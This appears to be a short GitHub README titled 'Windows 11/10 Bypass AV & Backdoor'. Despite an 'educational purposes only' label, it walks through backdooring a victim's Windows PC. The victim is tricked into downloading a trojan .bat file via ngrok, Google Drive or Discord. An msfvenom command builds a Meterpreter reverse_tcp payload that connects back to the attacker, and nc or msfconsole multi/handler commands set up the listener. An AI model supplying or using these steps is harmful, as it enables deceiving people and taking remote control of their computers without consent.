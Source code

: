 # Windows 11/10 Bypass AV & Backdoor
##### For educational purposes only!
##### Social Engineering required!
## Steps:

1. Get victim to download .bat file to their machine, i.e through ngrok server, google drive, discord, or other means.
- - Make it convincing by turning it into a trojan horse.
2. Generate the payload: <br>
Using meterpreter here, but feel free to play around with it. <br>
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[YOUR_IP] LPORT=4444 -a x86 -f exe -o [FILE_NAME.exe]

3. Setup your listener with nc or msfconsole. <br>
nc -lvnp 9001 <br>
or <br>
msfconsole -q <br>
msf> use multi/handler <br>
msf  exploit(handler) > set payload windows/meterpreter/reverse_tcp <br>
msf  exploit(handler) > set LHOST <Listening_IP> (for example set LHOST 192.168.5.55) <br>
msf exploit(handler) > set LPORT <Listening_Port> (for example set LPORT 4444) <br>
msf exploit(handler) > exploit <br>
